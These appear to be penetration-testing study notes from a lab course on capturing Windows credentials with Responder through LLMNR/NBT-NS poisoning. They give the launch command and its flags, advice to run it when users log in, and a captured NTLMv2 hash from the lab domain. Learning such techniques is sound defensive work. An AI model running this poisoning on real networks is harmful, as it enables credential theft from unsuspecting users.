




Responder : listen to network traffic
- - First thing to do : turn on Responder (before scans, nmap, nessus, etc...)
- => Scans, nmap, nessus, etc... generate network traffic
- - Listen with Responder for any information, breach or hash
- (- Tip : best time to launch Responder is in the morning when people arrives or after lunch : when people turn computers on and log in)
-
Responder
locate Responder.py
cd /usr/share/responder
python Responder.py -I eth0 -rdw
- -I eth0, --interface=eth0 : Network interface to use, you can use 'ALL' as a wildcard for all interfaces- - -r, --wredir : Enable answers for netbios wredir suffix queries. Answering to wredir will likely break stuff on the network. Default: False
- - -d, --NBTNSdomain : Enable answers for netbios domain suffix queries. Answering to domain suffixes will likely break stuff on the network. Default: False
- -w, --wpad : Start the WPAD rogue proxy server. Default value is False


Trigger an event:
(1) Proof of concept
- Connect to HYDRA (Click on Ce PC > Emplacements Réseaux > hackme (\\HYDRA) (:Z))
Respondus catches the event :

(2) Capture the hash- - Kali host ip : 192.168.1.83
- - Try to connect to 192.168.1.83 from Windows 10 Enterprise
- 
Respondus catches the event : NTLMv2 Client, Username and hash : 
- => Real-life example : Device with configuration settings, eg: printer
- => Point to your host to capture hash
fcastle::MARVEL:f9e52839408b2a4e:FC6E268F36AFF9DE8D59E550DF2A059B:0101000000000000C0653150DE09D201E0FA7A4E76CA671E000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D20106000400020000000800300030000000000000000000000000200000DED3BD39696062F6061CAA23E1E8A2D7DF67A7E89E51A39CB9FCF5C396085FDA0A001000000000000000000000000000000000000900220063006900660073002F003100390032002E003100360038002E0031002E00380033000000000000000000